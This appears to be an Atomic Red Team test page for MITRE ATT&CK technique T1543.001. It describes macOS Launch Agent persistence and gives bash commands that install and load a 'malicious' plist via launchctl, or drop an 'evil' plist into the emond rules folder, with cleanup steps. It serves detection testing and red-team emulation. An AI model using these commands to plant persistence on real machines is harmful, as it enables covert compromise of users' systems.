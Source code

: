# T1543.001 - Create or Modify System Process: Launch Agent
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1543/001)
<blockquote>Adversaries may create or modify launch agents to repeatedly execute malicious payloads as part of persistence. When a user logs in, a per-user launchd process is started which loads the parameters for each launch-on-demand user agent from the property list (.plist) file found in <code>/System/Library/LaunchAgents</code>, <code>/Library/LaunchAgents</code>, and <code>~/Library/LaunchAgents</code>.(Citation: AppleDocs Launch Agent Daemons)(Citation: OSX Keydnap malware) (Citation: Antiquated Mac Malware) Property list files use the <code>Label</code>, <code>ProgramArguments </code>, and <code>RunAtLoad</code> keys to identify the Launch Agent's name, executable location, and execution time.(Citation: OSX.Dok Malware) Launch Agents are often installed to perform updates to programs, launch user specified programs at login, or to conduct other developer tasks.

 Launch Agents can also be executed using the [Launchctl](https://attack.mitre.org/techniques/T1569/001) command.
 
Adversaries may install a new Launch Agent that executes at login by placing a .plist file into the appropriate folders with the <code>RunAtLoad</code> or <code>KeepAlive</code> keys set to <code>true</code>.(Citation: Sofacy Komplex Trojan)(Citation: Methods of Mac Malware Persistence) The Launch Agent name may be disguised by using a name from the related operating system or benign software. Launch Agents are created with user level privileges and execute with user level permissions.(Citation: OSX Malware Detection)(Citation: OceanLotus for OS X) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Launch Agent](#atomic-test-1---launch-agent)

- [Atomic Test #2 - Event Monitor Daemon Persistence](#atomic-test-2---event-monitor-daemon-persistence)


<br/>

## Atomic Test #1 - Launch Agent
Create a plist and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** a5983dee-bf6c-4eaf-951c-dbc1a7b90900





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| plist_filename | filename | string | com.atomicredteam.plist|
| path_malicious_plist | Name of file to store in cron folder | string | $PathToAtomicsFolder/T1543.001/src/atomicredteam_T1543_001.plist|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
if [ ! -d ~/Library/LaunchAgents ]; then mkdir ~/Library/LaunchAgents; fi;
sudo cp #{path_malicious_plist} ~/Library/LaunchAgents/#{plist_filename}
sudo launchctl load -w ~/Library/LaunchAgents/#{plist_filename}
```

#### Cleanup Commands:
```bash
sudo launchctl unload ~/Library/LaunchAgents/#{plist_filename}
sudo rm ~/Library/LaunchAgents/#{plist_filename}
```



#### Dependencies:  Run with `bash`!
##### Description: The shared library must exist on disk at specified location (#{path_malicious_plist})
##### Check Prereq Commands:
```bash
if [ -f #{path_malicious_plist} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
echo "The shared library doesn't exist. Check the path"; exit 1;
```




<br/>
<br/>

## Atomic Test #2 - Event Monitor Daemon Persistence
This test adds persistence via a plist to execute via the macOS Event Monitor Daemon.

**Supported Platforms:** macOS


**auto_generated_guid:** 11979f23-9b9d-482a-9935-6fc9cd022c3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_location | evil plist location | path | $PathToAtomicsFolder/T1543.001/src/atomicredteam_T1543_001.plist|
| script_destination | Path where to move the evil plist | path | /etc/emond.d/rules/atomicredteam_T1543_001.plist|
| empty_file | Random name of the empty file used to trigger emond service | string | randomflag|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cp #{script_location} #{script_destination}
sudo touch /private/var/db/emondClients/#{empty_file}
```

#### Cleanup Commands:
```bash
sudo rm #{script_destination}
sudo rm /private/var/db/emondClients/#{empty_file}
```





<br/>
